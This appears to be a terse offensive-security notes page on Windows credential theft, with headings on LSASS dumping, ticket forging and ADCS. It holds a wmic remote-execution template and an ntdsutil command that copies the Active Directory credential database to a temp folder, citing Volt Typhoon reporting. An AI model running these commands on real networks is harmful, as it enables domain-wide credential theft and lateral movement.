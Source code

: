 # Advanced Credential Grabbing



## LSASS Dump Through Comsvc.dll

use nim custom .dll inject

## Total Not Mimikatz Ticket Generation


## ADCS


## Create Domain Save with 
https://www.microsoft.com/en-us/security/blog/2023/05/24/volt-typhoon-targets-us-critical-infrastructure-with-living-off-the-land-techniques/


`wmic /node: /user: /password: process call create`

`ntdsutil \"ac i ntds\" ifm \"create full c:\Windows\temp\pew\" qq"`
